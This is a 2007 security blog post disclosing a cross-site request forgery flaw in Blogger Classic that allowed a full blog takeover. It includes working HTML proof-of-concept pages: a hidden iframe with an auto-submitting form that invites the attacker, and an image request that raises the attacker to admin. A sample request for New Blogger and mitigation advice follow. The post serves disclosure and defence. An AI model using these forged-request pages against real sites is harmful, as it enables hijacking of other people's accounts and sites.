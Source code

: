 ```yaml
---
title: CSRF-ing Blogger Classic
author: adrian-pastor
date: Fri, 19 Jan 2007 10:02:10 GMT
template: this/views/post.jade
---
```


In [Blogger](http://www.blogger.com) Classic, admin users who originally created a blog can be removed by other admin users. This behavior allows for a complete and non-reversible hijack of a Blogger Classic blog through  CSRF/XSRF/session riding/one-click attacks.

The process is a two shots attacks, meaning that the victim admin user needs to click on two different links while being authenticated. Due to the nature of blogging, in which admins go through the comments posted by visitors, this attack is very feasible. This is probably even more true for blogs that are moderated, since blog admins review posts carefully including URLs embedded in posts before publishing the posts, thus clicking on the evil link **while authenticated**.

What each evil URL does:

1. Send an invitation link to the attacker on behalf of the admin user in order to become a blog member (only permission to create new posts is given to the attacker at this point)
2. Change the attacker's permissions from guest to admin.

After this, the attacker can login to the target blog as an admin user and remove the original admin user who created the blog (remember that in "Blogger Classic" admins users can remove the original admin user of the blog). The only rule is that there must exist **at least one admin user**. At this point, the victim admin user can never take control over the  blog even though he/she was the original founder.

---

### blogger-classic-attack-step-1.html

```html
<HTML><BODY>
<H1>You are being CSRFed in the background while viewing this HTML page</H1>
<iframe src="./blogger-classic-add-user.html" height="0" width="0" frameborder="0">
</BODY></HTML>
```

---

### blogger-classic-add-user.html

```html
<HTML><BODY>
<!--
Blogger Classic "invite new team member" request
POST http://www.blogger.com/send-invite.do

blogID=12345678&email0=attacker@domain.com&email1=&email2=&inviteMessage=

Note: 'blogID' can be found by visitors on the main page of a blog within several URLs in the source code of the page. Change 'email0' with attacker's email.
-->
<form method="POST" id="evil" name="evil" action="http://www.blogger.com/send-invite.do">
<input type="hidden" name="blogID" value="12345678">
<input type="hidden" name="email0" value="attacker@domain.com">
<input type="hidden" name="email1" value="">
<input type="hidden" name="email2" value="">
<input type="hidden" name="inviteMessage" value="">
</form>
<script>document.evil.submit()</script>
</BODY></HTML>
```

---

### blogger-classic-attack-step-2.html

```html
<html><body>
<!--
This request is a GET, and makes an existing guest member (the attacker in this case) an admin.

i.e.:
http://www.blogger.com/team-member-modify.do?blogID=12345678&memberID=55555555&isAdmin=1

Note: assign to 'memberID' the value of the 'userID' of the attacker. 'userID' can be found after logging into Blogger Classic (rather than "New Blogger") using the attacker's Blogger Classic account and accessing "edit profile"  (variable in HTML form named 'userID').
This value is also available in the address bar's URL after acessing "view profile" (i.e.: http://www.blogger.com/profile/55555555) .
'blogID' is the same value as the one used in the first HTML attack page ("blogger-classic-add-user.html").
-->
<script>
	var_blogID=12345678; // change to ID of target Blogger Classic blog
	var_memberID=55555555; // change to attacker's member ID

	new Image().src="http://www.blogger.com/team-member-modify.do?blogID="+var_blogID+"&memberID="+var_memberID+"&isAdmin=1";
</script>
<H1>You are being CSRFed in the background while viewing this HTML page</H2>
</body></html>
```

---

After visiting a URL that contains the second HTML file, the attacker can now login to the target blog as an admin user and remove the original owner of the blog, thus completely hijacking the blog. The attack could be even more automated, but the attack walkthrough discussed here is enough to take over a "Classic Blogger" blog.

The first attack HTML file _attack-step-1.html_ calls _blogger-classic-add-user.html_ through an iframe so that the forged POST request is sent **in the background** while the victim admin user is viewing the HTML page. The second second attack HTML file _blogger-classic-attack-step-1.html_ uses an image object that sends the forged GET request **in the background** without needing to use an iframe.

By the way, in "New Blogger" there are also some interesting requests that are not being tokenized. Similar to Blogger Classic, changing profile details does require a token (i.e.: 'securityToken' parameter), while inviting a new user, for instance, does not. I.e.:

```http
POST http://www2.blogger.com/add-authors.do

blogID=1234567890123456789&authorsList=attacker%40domain.com+&submit=true
```

Note: I suspect that it is possible to tell when a blog is "Classic Blogger" or "New Blogger" by looking up the 'blogID' value from the source code of the main blog page and checking if the numeric value is 8 digits long, rather than 19 digits long which is used by "New Blogger"

Solution: admin users are recommended to switch to new blogger, and to use a different web browser to visit links while logged on to Blogger.

Greetings to pdp, David Kierznowski , Amir Azam (thanks for testing the attack). This CSRF experiment is dedicated to my babe peluchita!!!
